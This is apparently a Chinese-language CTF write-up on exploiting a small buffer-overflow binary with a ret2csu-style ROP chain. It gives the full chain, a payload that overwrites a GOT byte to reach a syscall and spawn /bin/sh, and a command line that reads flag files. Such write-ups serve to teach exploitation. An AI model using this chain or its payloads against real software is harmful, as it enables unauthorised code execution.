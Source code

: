 # 漏洞点
如下所示，明显的缓冲区溢出漏洞，且got表里没有可利用的其他函数！！无法泄露地址！！oh my gad！<br>
```
ssize_t __fastcall main(__int64 a1, char **a2, char **a3)
{
  char buf; // [rsp+0h] [rbp-10h]@1

  return read(0, &buf, 0x20uLL);
}
```

# 漏洞的利用
&#8195;分析上述的漏洞可以看出，这里只能写入0x20个字节，也就是只能覆盖ebp和esp，因此在栈中构造rop链是不可能的，所以考虑向bss段写入数据，在bss段构造rop<br>
<br>
&#8195;参见大佬的rop链如下，这里主要分析为什么要这么构造rop链<br>
```
rop = p64(pop_rbx_rbp_r12_r13_r14_r15_ret)
rop += p64(0x0) #rbx
rop += p64(0x1) #rbp
rop += p64(read_got) #r12
rop += p64(0x3b) #r13
rop += p64(read_got - 0x3a) #r14
rop += p64(0x0) #r15
rop += p64(0x400570) #ret
rop += p64(0x41414141)

rop += p64(0x0) #rbx
rop += p64(0x1) #rbp
rop += p64(read_got) #r12
rop += p64(0x600e00) #r13
rop += p64(0x600e00) #r14
rop += p64(read_got - 0x3a) #r15
rop += p64(0x400570) #ret
```
1、rop在一开始使用了一个gadget将构造的数据存储到寄存器中<br>
2、这里需要关注ret的地址，观察这些寄存器的使用方式，在IDA pro中查看0x400570处的指令如下，为init函数的一部分。该部分代码的操作如下：<br>
（1）将r13、r14、r15的值分别赋给了rdx、rsi、edi<br>
（2）call  [r12+rbx*8] 的操作即为 call read_got，这也说明了为什么在构造参数的时候需要将r12赋值为read_got，rbx赋值为0，同时read的参数被赋值为0、read_got - 0x3a、0x3b，即调用read（0，read_got - 0x3a，0x3b），此函数的返回值为0x3b存储在eax中（这里设置为0x3b主要是因为execve（）的系统调用号为0x3b）。此时在调用read函数，传入的payload如下所示，该payload将“/bin/sh”参数写入了read_got-0x3a处，同时将read_got的最后一个字节改为了0xee（这里进行的这一波骚操作，主要是利用read函数比较短，syscall距离read函数的起始地址也比较短，遍历最后一个字节，应该就可以找到call syscall的地址，于是就将read_got修改为这一地址，并将eax赋值为execve的调用号）<br>

```
payload = '/bin/sh'.ljust(0x3a, '\x00') + '\xee'
```
 
（3）为了绕过后续jnz的跳转，这里将ebp赋值为了1<br>
（4）add rsp，8 于是在rop链后跟随了8个字节的‘a’<br>
（5）这堆gadget，进行了一波同样的操作，这里由于在调用read_got时直接相当于call execve，因此只需要给第一个参数edi赋值为“/bin/sh”的地址即可，剩下两个参数可以随便赋值，然后再传送一波命令行参数的payload即可获取flag<br>
```
payload1 = 'ls /home; ls /home/*; cat /home/readable/flag; cat /flag;\n'
```

```
.text:0000000000400570 loc_400570:                             ; CODE XREF: init+54j
.text:0000000000400570                 mov     rdx, r13
.text:0000000000400573                 mov     rsi, r14
.text:0000000000400576                 mov     edi, r15d
.text:0000000000400579                 call    qword ptr [r12+rbx*8]
.text:000000000040057D                 add     rbx, 1
.text:0000000000400581                 cmp     rbx, rbp
.text:0000000000400584                 jnz     short loc_400570
.text:0000000000400586
.text:0000000000400586 loc_400586:                             ; CODE XREF: init+36j
.text:0000000000400586                 add     rsp, 8
.text:000000000040058A                 pop     rbx
.text:000000000040058B                 pop     rbp
.text:000000000040058C                 pop     r12
.text:000000000040058E                 pop     r13
.text:0000000000400590                 pop     r14
.text:0000000000400592                 pop     r15
.text:0000000000400594                 retn
.text:0000000000400594 init            endp
```

# get到点
1、第一次学到利用init函数里的代码来实现相应的操作<br>
2、这里采用暴力的方式，破解出call syscall的地址，同时又巧妙的将eax设置为了0x3b<br>
3、由于此题一次只能写入0x20，而且根据程序的执行逻辑，一次写入的有效数据是0x10，因此需要通过循环来写入数据。同时通过另一个bss缓冲区来作为跳转，实现程序的正常功能<br>
